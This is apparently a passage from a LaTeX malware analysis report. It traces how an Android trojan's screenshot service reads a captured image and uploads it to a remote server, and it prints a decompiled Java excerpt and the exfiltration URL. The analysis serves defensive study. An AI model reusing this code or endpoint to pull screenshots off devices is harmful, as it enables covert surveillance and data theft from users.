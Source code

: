 \documentclass[10pt,titlepage]{article}
\begin{document}
Meanwhile the Service \textit{naqsl.ebxcb.exu.API.Screenshot.ServiceSendRequestImageVNC} will be started which is intended to send the image to a Web server. The function \textit{naqsl.ebxcb.exu.API.Screenshot.ServiceSendRequestImageVNC.onHandleIntent}
reads the image from disk and passes it together with the target url into the function \textit{intR.fddo} (see Listing \ref{servicesendrequestimageonhandleintent}).

\begin{lstlisting}[label=servicesendrequestimageonhandleintent,caption=The function \textit{naqsl.ebxcb.exu.API.Screenshot.ServiceSendRequestImageVNC.onHandleIntent} writes the file to disk as well as invokes the \textit{naqsl.ebxcb.exu.Cint.fddo()} function which is intended to send the data to a Web server.,frame=tb]
    public void onHandleIntent(Intent intent) {
        Cint intR = new Cint();
        String str = "vnc";
        String str2 = "stop";
        String str3 = "";
        String str4 = "websocket";
        [...]
                byte[] ifdf = Cint.ifdf(
                                  new File(getExternalFilesDir(null), "screenshot.jpg"));
                StringBuilder sb = new StringBuilder();
                sb.append(this.f556fddo);
                sb.append(".jpg");
                intR.fddo((Context) this, ifdf, sb.toString());
\end{lstlisting}

The \textit{naqsl.ebxcb.exu.Cint.fddo()} builds the target url (in this test case: "http://hangikapi.com/o1o/a1.php") and passes some additional parameters to the \textit{java.net.HttpURLConnection}. After the header and other information was sent the image data will transfered with the call \textit{        dataOutputStream.write(bArr);} (see Listing \ref{screenshotupload}).

This is the full flow of the Screenshot malware feature.
\end{document}
